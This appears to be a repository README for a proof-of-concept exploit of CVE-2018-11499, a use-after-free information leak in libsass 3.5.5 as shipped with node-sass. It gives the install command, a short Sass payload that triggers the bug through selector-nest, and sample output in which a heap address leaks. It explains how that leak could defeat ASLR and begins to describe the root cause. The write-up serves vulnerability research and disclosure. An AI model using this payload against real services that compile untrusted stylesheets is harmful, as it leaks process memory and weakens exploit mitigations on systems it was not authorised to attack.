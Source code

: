 This document describes how to setup the a NAN Javascript exploit for [CVE-2018-11499](https://nvd.nist.gov/vuln/detail/CVE-2018-11499) against node-sass (libsass version 3.5.5).


CVE-2018-11499 is an information disclosure via a use-after-free. The bug is tracked in the github issue [#2643](https://github.com/sass/libsass/issues/2643). This exploit actually works with the npm version of node-sass since development has stopped on node-sass and it ships with the exploitable version of libsass (3.5.5).

To execute the exploit, first install node-sass:

```
PATH=/bpjs/bpjs/vanilla_node/node_install/bin:$PATH /bpjs/bpjs/vanilla_node/node_install/bin/npm install node-sass
```

This javascript file triggers the exploit

```
// @uebu{

@debug 10emd+ selector-nest('.menu', '&hover lrgba(100, 120, 140, #5)i')Q2em;
```

Here is a sample output:

```
elahtinen@pac-thinkstation:~/free/node-sass$ PATH=/bpjs/bpjs/vanilla_node/node_install/bin:$PATH node sass-exploit.js
{ Error: Invalid CSS after "&": expected selector, was "hover lrgba(100, 1"
    at options.error (/home/elahtinen/free/node-sass/node_modules/node-sass/lib/index.js:290:33)
  status: 1,
  file: '[SELECTOR]',
  line: 1,
  column: 1,
  message: 'Invalid CSS after "&": expected selector, was "\u001ahover lrgba(100, 1"',
  formatted: 'Error: Invalid CSS after "&": expected selector, was "\u001ahover lrgba(100, 1"\n        on line 1 of [SELECTOR], in function `selector-nest`\n        from line 3 of ../../libsass.poc\n>> @v\u00014R\n   ^\n' }
null
```

These unicode characters `\u00014R` are a heap address. Leaking a heap address isn't the most desirable of exploits: a stack address or library address would be more useful (or a Turing complete decoder would be better). But leaking a heap address without crashing the program can be used to defeat ASLR. I'll take a look and see if I can leak some more interesting information, but there isn't much control since it takes place in an exception handler.

Interestingly this exploit actually requires ASLR to be enabled. By default, libsass strips out non-unicode characters from the output. With ASLR disabled the leaked heap address contains invalid unicode characters. With ALSR enabled, some runs will have heap addresses that are all valid unicode characters.

The remainder of the this document describes how the use-after-free occurs.


The use-after-free occurs because of a lack of exception safety in this loop in `selector_nest' in the file (function.cpp:1979)[https://github.com/sass/libsass/blob/39e30874b9a5dd6a802c20e8b0470ba44eeba929/src/functions.cpp#L1972)

